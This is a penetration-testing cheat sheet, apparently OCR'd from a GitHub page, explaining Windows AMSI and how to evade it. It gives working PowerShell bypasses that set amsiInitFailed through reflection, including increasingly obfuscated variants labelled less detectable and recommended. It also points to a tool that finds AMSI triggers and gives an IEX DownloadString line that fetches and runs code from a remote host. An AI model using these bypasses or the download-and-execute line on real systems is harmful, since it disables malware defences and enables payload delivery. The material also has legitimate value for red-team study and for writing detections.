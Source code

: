 #### AMSI (Anti Malware Scan Interface)
AMSI is a Powershell feature that scans payloads before execution during runtime.
It's fully integrated with:
-  Powershell
-  VBScript
-  Windows script hosts (wscript, cscript)
-  Office VBA macros
If you are getting errors saying  
```
This script contains malicious content and has been blocked by your antivirus software.
		+ CategoryInfo          : ParserError: (:) []. ParentContainsErrorRecordException
		+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
It's AMSI.

### Automated exploitation
For commands, visit [amsi.fail](http://amsi.fail)
Or use AmsiTrigger:
```
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3      // Finds and bypasses the AMSI triggers
```


One-liner to bypass AMSI using Powershell reflection (can get detected):
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

// Explanation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')   // Gets the AMSI-utilities in Powershell
.GetField('amsiInitFailed','NonPublic,Static')                     // Get a specific field from the AMSI-utils section
.SetValue($null,$true)                                             // Sets "amsiInitFailed" to True, so it will stop being checked
```

Less detectable:
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

Even less detectable (recommended):

```powershell
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
      $fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Test using:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/test')
```

Sometimes works: https://amsi.fail/

